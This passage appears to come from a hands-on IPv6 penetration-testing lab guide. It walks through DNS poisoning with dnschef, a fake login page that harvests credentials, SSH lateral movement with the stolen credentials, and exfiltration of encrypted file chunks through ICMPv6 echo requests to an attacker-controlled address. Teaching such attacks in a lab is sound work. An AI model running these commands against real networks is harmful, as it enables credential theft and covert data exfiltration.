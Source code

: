 4.  Trigger a Network Reconfiguration:
    *   Force a client to renew its DHCP lease and process new RAs.
    *   Command on a Target (simulated by instructor): `sudo dhclient -6 -r eth0 && sudo dhclient -6 -v eth0`
    *   Verification: Check the target's new IPv6 routing table and DNS resolver configuration. It should list your attacker VM's IP for both.

Checkpoint: You now control the network's configuration distribution system.

## Phase 4: Lateral Movement - Exploiting Trust Relationships

Goal: Use your control of DNS and the router to move laterally to the `TARGET_SERVER`.

Instructions:

1.  DNS Spoofing for Service Exploitation:
    *   The `TARGET_SERVER` uses a centralized authentication service. Poison the DNS record for `auth.myco6sec-lab.internal` to point to a malicious server you control.
    *   Command on your attacker VM (running dnschef): `sudo dnschef --ipv6 --fakeipv6=YOUR_IPV6 --interface=::0 --port=53`

2.  Set Up a Credential Harvesting Service:
    *   On your attacker VM, set up a simple HTTP server that mimics the login page of the authentication service and logs all POST requests.
    *   Command: `sudo python3 -m http.server 80`

3.  Intercept and Replay Credentials:
    *   Wait for authentication attempts from the `TARGET_SERVER` to be redirected to your fake login page. The credentials will be logged.
    *   Finding: Use the captured credentials to SSH into the `TARGET_SERVER`.
    *   Command: `ssh -o HostKeyAlgorithms=+ssh-rsa administrator@TARGET_SERVER` (The server uses a legacy key algorithm).

Checkpoint: You have laterally moved to the primary target server using hijacked credentials.

## Phase 5: Exfiltration - The IPv6 Covert Channel

Goal: Exfiltrate the target data (`/opt/secret/research_data.tar.gpg`) without triggering any data loss prevention (DLP) alerts.

Instructions:

1.  Encrypt and Fragment the Data:
    *   On the `TARGET_SERVER`, encrypt and split the data into small chunks to blend with normal traffic.
    *   Command: `tar czf - /opt/secret/ | openssl enc -e -aes-256-cbc -k "MyC0Pr0j3ct!" | split -b 1024 - research_data.`

2.  Encode Data into ICMPv6 Echo Requests:
    *   Use a custom tool (`icmp6_exfil`) to encode each data fragment into the payload of ICMPv6 Echo Request packets. These packets will be sent to a dead IPv6 address you control, but intercepted by your attacker VM due to your MITM position.
    *   Command: `for f in research_data.*; do ./icmp6_exfil -d 2001:db8:dead:beef::1 -f $f; done`
